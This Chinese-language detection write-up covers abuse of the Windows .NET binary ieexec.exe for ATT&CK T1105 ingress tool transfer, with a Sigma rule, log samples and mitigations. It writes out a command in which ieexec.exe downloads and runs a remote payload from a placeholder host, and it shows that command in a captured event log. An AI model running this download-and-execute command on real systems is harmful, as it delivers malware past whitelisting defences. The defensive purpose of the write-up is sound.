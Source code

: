 # T1105-Win-入口工具转移-ieexec.exe(白名单)

## 描述

攻击者可能通过命令和控制通道从外部系统将工具或其他文件转移到被攻击的环境中，以将恶意工具或有效载荷引入目标网络。文件传输可通过专用工具（如FTP）或替代协议（如scp、rsync、sftp）实现，适用于Windows、Mac和Linux系统。攻击者常利用系统内置的白名单工具（如`ieexec.exe`）来规避传统防病毒检测。

## 测试案例

`ieexec.exe`是.NET Framework附带的应用程序，位于`C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe`或`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe`，用于执行从远程URL加载的托管.NET应用程序。攻击者可利用其直接从远程服务器下载并运行恶意代码，绕过安全机制。

### 路径
```yml
- C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
- C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
```

### 示例命令
从远程服务器下载并执行`bypass.exe`：
```yml
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

### 用例
- 从远程位置下载并运行攻击者控制的恶意代码。
- 所需权限：用户权限。
- 操作系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10。

## 检测日志

### Windows安全日志
- **事件ID 4688**：记录`ieexec.exe`进程创建及命令行参数（需启用命令行审核）。

### Sysmon日志
- **事件ID 1**：捕获`ieexec.exe`进程创建及命令行参数。
- **事件ID 3**：记录`ieexec.exe`发起的HTTP/HTTPS网络连接（目标IP/端口）。
- **事件ID 11**：记录可能的恶意文件创建（若下载内容被保存）。

### 网络日志
- 捕获`ieexec.exe`发起的HTTP/HTTPS请求，检查目标URL是否异常。

## 测试复现

### 环境准备
- **靶机**：Windows 10。
- **权限**：用户权限（无需管理员）。
- **工具**：
  - `ieexec.exe`（系统自带，路径`C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe`或`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe`）。
  - Sysmon（用于进程和网络监控）。
  - Wireshark（用于网络流量捕获）。
  - 测试Web服务器（提供可控URL）。
- **网络**：允许HTTP/HTTPS出站流量，建议在隔离网络中测试。
- **日志**：启用Windows安全日志和Sysmon日志。

### 攻击步骤
1. **执行下载命令**：
   ```bash
   C:\Users\liyang>C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe http://x.x.x.x:8080/bypass.exe
   ```
   - 命令从指定URL下载并执行`bypass.exe`。
   - 注意：直接运行`ieexec.exe`可能提示“不是内部或外部命令”，需指定完整路径。。

## 测试留痕

```yml
已创建新进程。

创建者主题:
安全 ID: DESKTOP-PT656L6\liyang
帐户名: liyang
帐户域: DESKTOP-PT656L6
登录 ID: 0x47126

进程信息:
新进程 ID: 0x1a24
新进程名称: C:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe
令牌提升类型: %%1938
强制性标签: Mandatory Label\Medium Mandatory Level
创建者进程 ID: 0x1410
创建者进程名称: C:\Windows\System32\cmd.exe
进程命令行: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe https://xxx/QQ.exe
```

## 检测方法/思路

### Sigma规则
基于Sigma规则，检测`ieexec.exe`的异常执行行为：

```yml
title: ieexec.exe Suspicious Invocation
id: 7f2b3e5a-9c1d-4b7e-a2f3-8c9e4d7b3c2a
status: experimental
description: Detects suspicious execution of ieexec.exe, which can be used to download and run malicious code from a remote URL
author: 12306Br0
date: 2022/04/20
references:
- https://www.codercto.com/a/104908.html
- https://lolbas-project.github.io/lolbas/Binaries/Ieexec/
logsource:
  product: windows
  category: process_creation
detection:
  selection:
    Image|endswith: '\ieexec.exe'
    CommandLine|contains: 'http'
  condition: selection
falsepositives:
- Legitimate use of ieexec.exe for loading trusted .NET applications
level: medium
```

### 检测思路
1. **进程监控**：
   - 检查`ieexec.exe`的命令行参数是否包含HTTP/HTTPS URL。
   - 监控异常父进程（如`cmd.exe`、`powershell.exe`）。
2. **网络监控**：
   - 检测`ieexec.exe`发起的HTTP/HTTPS请求，重点关注非预期目标URL。
3. **行为监控**：
   - 检测`ieexec.exe`是否加载了非预期的.NET应用程序。
4. **关联分析**：
   - 结合Sysmon事件ID 1（进程创建）、3（网络连接）和可能的11（文件创建）进行关联，识别完整攻击链。

### 检测建议
- **告警规则**：基于Sigma规则，配置SIEM系统（如Splunk、Elastic）检测`ieexec.exe`的异常命令行参数和网络活动。
- **基线对比**：建立`ieexec.exe`的正常使用基线（通常在开发环境中加载受信任的.NET应用），排除合法行为。
- **网络白名单**：限制`ieexec.exe`的出站流量，仅允许访问已知合法服务器。
- **文件完整性监控**：监控`ieexec.exe`下载的文件，检测异常文件类型（如`.exe`）。

## 缓解措施
1. **限制网络访问**：
   - 配置防火墙，限制`ieexec.exe`的出站HTTP/HTTPS流量，仅允许访问受信任的服务器。
2. **加强日志监控**：
   - 启用命令行参数记录和Sysmon日志，覆盖进程、网络和文件操作。
3. **白名单管理**：
   - 使用应用白名单工具（如AppLocker）限制`ieexec.exe`的执行场景。
4. **权限管理**：
   - 限制普通用户运行`ieexec.exe`，仅允许开发或受信任账户使用。
5. **定期审查**：
   - 检查系统内`ieexec.exe`的异常使用记录，结合威胁情报分析潜在风险。

## 参考推荐
- MITRE ATT&CK T1105  
  https://attack.mitre.org/techniques/T1105  
- ieexec.exe  
  https://lolbas-project.github.io/lolbas/Binaries/Ieexec/  
- 远控免杀专题(46)-白名单IEexec.exe执行payload  
  https://www.codercto.com/a/104908.html
